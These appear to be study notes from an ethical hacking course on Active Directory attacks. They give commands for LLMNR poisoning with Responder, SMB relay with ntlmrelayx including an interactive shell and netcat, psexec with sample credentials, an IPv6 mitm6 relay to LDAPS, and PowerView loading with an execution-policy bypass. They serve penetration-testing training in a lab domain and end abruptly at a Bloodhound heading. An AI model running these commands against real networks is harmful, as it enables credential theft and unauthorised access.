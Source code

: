 # Practical Ethical Hacking

## Subnetting

[IP Adress Guild site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

[Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

1. LLMNR Poisoning

![](../.gitbook/assets/3%20%281%29.png)

Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

1. SMB Relay attack

   Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine

![](../.gitbook/assets/2-2.png)

Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

Tool : [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

[https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

**Attacking AD Strategies** 

![](../.gitbook/assets/1.png)

### Post Compromise Enumeration

1. [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

1. Bloodhound

